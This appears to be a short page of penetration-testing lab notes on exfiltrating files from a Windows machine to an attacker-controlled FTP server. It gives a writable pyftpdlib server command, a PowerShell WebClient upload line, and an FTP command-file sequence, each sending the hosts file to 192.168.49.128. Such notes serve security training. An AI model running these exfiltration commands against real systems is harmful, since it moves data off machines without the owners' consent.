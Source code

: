 ### FTP Uploads

```
sudo python3 -m pyftpdlib --port 21 --write
```

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption><p> You need to specify the option <code>--write</code> to allow clients to upload files to our attack host</p></figcaption></figure>

### **PowerShell Upload File**

{% code overflow="wrap" %}
```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

### **Command File for FTP Client to Upload File**

{% code overflow="wrap" %}
```
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>
